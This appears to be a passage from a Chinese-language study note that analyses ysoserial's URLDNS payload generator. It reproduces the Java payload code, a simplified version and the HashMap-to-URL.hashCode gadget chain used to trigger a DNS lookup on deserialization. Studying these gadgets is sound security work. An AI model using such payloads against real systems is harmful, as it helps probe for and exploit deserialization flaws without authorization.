 ```java
                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

                return ht;
        }

        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }

        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }

                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
}
```

简化后如下：
```java
URLStreamHandler handler = new SilentURLStreamHandler();
HashMap ht = new HashMap(); 
URL u = new URL(null, url, handler);
ht.put(u, url); 
Reflections.setFieldValue(u, "hashCode", -1); 

static class SilentURLStreamHandler extends URLStreamHandler {
  protected URLConnection openConnection(URL u) throws IOException {
    return null;
  }

  protected synchronized InetAddress getHostAddress(URL u) {
    return null;
  }
}
```

利用链如下：
```
Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
```

可以看到`ysoserial`直接继承`URLStreamHandler`类重写了`getHostAddress()`方法为空，因此避免了在生成`payload`的时候发起`DNS`请求。

